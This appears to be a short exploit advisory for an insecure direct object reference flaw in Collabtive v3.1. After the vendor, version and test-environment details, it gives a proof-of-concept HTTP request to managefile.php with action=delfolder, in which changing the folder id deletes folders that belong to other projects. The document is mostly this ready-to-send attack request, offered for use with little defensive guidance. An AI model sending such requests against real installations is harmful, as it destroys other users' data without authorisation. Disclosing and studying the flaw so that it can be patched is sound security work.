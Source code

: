 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete the folder that owned by other project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /managefile.php?action=delfolder&id=1(ATTACK'S PROJECT ID)&folder=3(CHANGE HERE)&ajax=1 HTTP/1.1
```